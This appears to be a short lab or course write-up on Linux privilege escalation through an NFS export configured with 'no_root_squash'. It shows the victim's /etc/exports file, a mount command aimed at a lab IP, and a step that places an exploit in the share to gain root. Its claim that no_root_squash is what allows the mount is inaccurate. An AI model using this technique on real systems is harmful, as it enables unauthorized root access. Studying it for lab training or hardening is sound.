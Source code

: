 ### NFS Root Squashing

After gaining the initial foothold...

```
TCM@debian:~$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

#/tmp *(rw,sync,insecure,no_subtree_check)

TCM@debian:~$
```

In here, the `no_root_squash` means that we can mount this drive on the device.  We do that on our device by the following...

`sudo mount -t nfs -o rw,vers=2 10.10.255.6:/tmp /tmp/mountme`    - the IP will be whatever the victim ip is

Then you can create your exploit and put it into the shared folder and run it in order to get your root privileges.

